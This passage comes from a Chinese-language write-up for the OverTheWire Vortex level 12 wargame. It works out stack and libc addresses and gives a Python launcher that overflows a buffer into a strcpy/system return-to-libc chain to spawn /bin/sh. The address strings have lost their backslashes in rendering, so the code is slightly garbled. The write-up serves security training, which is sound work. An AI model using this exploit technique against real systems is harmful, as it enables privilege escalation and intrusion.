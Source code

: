     <td width="129" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      sleep
    </td>

    <td width="129" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      dest
    </td>

    <td width="129" valign="top" style="word-break: break-all; border-width: 1px; border-style: solid;">
      src
    </td>
  </tr>
</table>

<p style="text-indent: 2em;">
  其中dest为指向safecode的栈中返回地址的指针，src为指向用来覆盖safecode的栈的字符串的指针。其中sleep是为了防止主线程在strcpy完成后就直接退出或者崩溃而设置的，给子线程以足够的时间产生shell。
</p>

<p style="text-indent: 2em;">
  这样，我们就不可避免的需要对两个字符串精确定位，还是通过参数传递这两个字符串。
</p>

<p style="text-indent: 2em;">
  程序的栈分布：&#8230;->参数字符串->环境变量字符串->运行程序名->NULL->NULL->栈底
</p>

<p style="text-indent: 2em;">
  这样，首先得到栈底为0xffffe000，然后程序名为/vortex/vortex12，这样可以算得，字符串/bin/sh的地址为0xffffdfdf，src<span style="text-indent: 32px;">为0xffffdfd2（注意计算的时候要考虑这些字符串结尾的x00）。</span>
</p>

<p style="text-indent: 2em;">
  然后，通过gdb，得到sleep的地址为0xf7ec5cd0，system的地址为0xf7fc3e30，strcpy的地址为0x080484b0，dest为0xf7e0b33c。
</p>

<p style="text-indent: 2em;">
  这样，我们得到启动程序如下：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8

import&nbsp;subprocess

sleep_addr&nbsp;=&nbsp;&#39;xd0x5cxecxf7&#39;
sys_addr&nbsp;=&nbsp;&#39;x30x3exfcxf7&#39;
cpy_addr&nbsp;=&nbsp;&#39;xb0x84x04x08&#39;
sh_addr&nbsp;=&nbsp;&#39;xdfxdfxffxff&#39;
dest&nbsp;=&nbsp;&#39;x3cxb3xe0xf7&#39;
src&nbsp;=&nbsp;&#39;xd2xdfxffxff&#39;
subprocess.Popen([&#39;/vortex/vortex12&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;1036&nbsp;+&nbsp;cpy_addr&nbsp;+&nbsp;sleep_addr&nbsp;+&nbsp;dest&nbsp;+&nbsp;src,&nbsp;sys_addr&nbsp;+&nbsp;sh_addr&nbsp;+&nbsp;sh_addr,&nbsp;&#39;/bin/sh&#39;],&nbsp;env&nbsp;=&nbsp;{}).communicate()</pre>
